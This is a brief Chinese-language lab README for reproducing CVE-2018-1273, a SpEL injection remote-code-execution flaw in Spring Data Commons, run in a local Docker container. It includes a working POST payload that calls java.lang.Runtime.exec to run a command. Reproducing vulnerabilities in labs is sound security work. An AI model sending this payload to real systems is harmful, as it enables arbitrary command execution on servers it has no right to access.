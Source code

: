 # spring data commons RCE漏洞 
## 漏洞描述
spring data commons  RCE漏洞  

Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

version:1.3.10
## 启动
`docker-compose up -d`  

该镜像拉取时间较长，执行完命令约几分钟后访问`http://localhost:8080/account`,出现如下即为启动成功。  

![ALT 1](/spring/CVE-2018-1273/1.png) 
## writeup
更改请求方式为POST,传输payload,其中exec处为命令。payload:  

`name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch /tmp/sucess')]=test`

## 复现结果
![ALT 1](/spring/CVE-2018-1273/2.png) 

![ALT 1](/spring/CVE-2018-1273/3.png) 
